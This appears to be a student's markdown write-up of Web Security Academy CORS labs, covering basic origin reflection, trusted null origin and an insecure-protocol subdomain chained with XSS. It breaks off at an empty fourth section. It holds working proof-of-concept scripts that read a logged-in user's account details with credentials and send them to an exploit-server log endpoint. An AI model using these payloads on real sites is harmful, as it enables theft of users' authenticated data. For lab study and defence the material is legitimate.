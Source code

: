 # Title: Cross origin resource sharing , Web Academy
By: Nathan Hailu
Description: Labs are solved and their write up is here.
Date: Mon 12/12/2022

================= { START } ==============================

## You try course if u have seen "Access-Control-Allow-Credentials: true" this kinda response headers!
A) CORS vulnerability with basic origin reflection

    When we try to test CORS we will see the response if it contains the acess-control-allow-origin or acess-control-allow-credentials header. if it have that we will try to use the origin header on the request and try to see if he pass or block it. if it pass we can exploit it with some CORS POC scripts
       
                <script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();

            function reqListener() {
                location='/log?key='+this.responseText;
            };
            </script>


B) CORS vulnerability with trusted null origin

    Thanks to developers they have forgoted 'null' by whitelisting it for local work. so first, we will try to add origin: example.con then we will try origin: * but when we try origin: null  it will responde with so Access-Control-Allow-Origin: null boom! we just need to run CORS POC script.

                <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
            </script>"></iframe>

C) CORS vulnerability with trusted insecure protocols 

    TO detect we can try different methods.
            1, origin: *
            2, origin: https://attacker.com
            3, origin: null
            4, origin: https://attacker.OriginalURL.com
            5, origin: https://OriginalURL.com.attacker.com
            
        These things have to give {
            Access-Control-Allow-Origin: https://attacker.OriginalURL.com
            Access-Control-Allow-Credentials: true
        }
    on this lab when we try all they wont work except the method 4, there for we will try to find a subdomain, for that you can use tools, also you can check the site endpoints.
    finally, you will get stock.webacademy.com domain so we will try any open vuln on it if the site have some vuln like xss, we will craft our JS code like below.

    `<script>
    document.location="http://stock.0a55009e038cde09c07b54ee00230042.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a55009e038cde09c07b54ee00230042.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a13006e037fdecbc0ae53ee0174000f.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>`

D) CORS vulnerability with internal network pivot attack

    